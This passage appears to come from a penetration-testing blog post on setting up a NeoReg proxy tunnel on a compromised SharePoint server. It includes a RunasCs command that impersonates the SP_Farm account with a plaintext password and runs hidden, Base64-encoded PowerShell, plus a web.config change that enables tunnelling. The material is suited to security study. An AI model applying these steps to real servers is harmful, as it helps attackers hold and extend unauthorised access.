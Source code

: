 I advance you that if you try to launch this command from Ysoserial payloads, the webshell or even SYSTEM with the Potato exploit, the server will deny your request with the following message:

```xml
#< CLIXML
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><S S="Error">Enable-SPSessionStateService : You need to have Farm administrator priviliges 
```

Fortunately, we have the `SP_Farm` account from the `appcmd.exe` command, so we can use it to solve privilege issues. To impersonate the farm user in a non-interactive environment, [RunAsCs](https://github.com/antonioCoco/RunasCs) project can help us to create an `Interactive` process token (logon type 2) to launch the command without too much trouble. Note that the Powershell command has been encoded in Base64 to prevent issues with special chars and command line terminators.

```powershell
cmd /c c:\programdata\runascs.exe SP_Farm pass@word1 "powershell -window hidden -enc QQBkAGQALQBQAHMAUwBuAGEAcABpAG4AIABNAGkAYwByAG8AcwBvAGYAdAAuAFMAaABhAHIAZQBQAG8AaQBuAHQALgBQAG8AdwBlAHIAUwBoAGUAbABsADsAIABFAG4AYQBiAGwAZQAtAFMAUABTAGUAcwBzAGkAbwBuAFMAdABhAHQAZQBTAGUAcgB2AGkAYwBlACAALQBEAGUAZgBhAHUAbAB0AFAAcgBvAHYAaQBzAGkAbwBuAA==" -d gmsp2016.dev -l 2
```

No output will be received from this command, but it could be modified to include STDOUT redirection in the Powershell command to write it into a file so it can be checked later. If everything went fine, Session State should be enabled now in the Sharepoint instance. 

There is one last thing to care about. As explained in the [official Microsoft documentation](https://docs.microsoft.com/en-us/previous-versions/aspnet/ms178581(v=vs.100)?redirectedfrom=MSDN#session-variables):

*"When you use a session-state mode other than [InProc](https://msdn.microsoft.com/en-us/library/cc99xk3f(v=vs.100)), the session-variable type must be either a primitive .NET type or  serializable. This is because the session-variable value is stored in an external data store. For more information, see [Session-State Modes](https://docs.microsoft.com/en-us/previous-versions/aspnet/ms178586(v=vs.100))."*

Despite failing miserably when trying to serialize sockets, in the end I got valuable information. NeoReg will fail again if we try to use it right now, but we know why: Session State is enabled with the `external data store` mode by default, which cannot handle socket serialization, so we must change it for the `InProc` mode. We can achieve this by adding the `<sessionState>` config in the `web.config` file corresponding to the Sharepoint app we are using:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<configuration>
...
  <system.web>
  ...
	<sessionState mode="InProc" timeout="25"></sessionState> 
```

Normally, Sharepoint servers will handle `web.config` modifications automatically, so there is no need to restart any service. After that, NeoReg should finally work, allowing us to configure a proxy tunnel even in the most lone Sharepoint. It's up to my dear reader which steps are taken from now on.

Be gentle. 
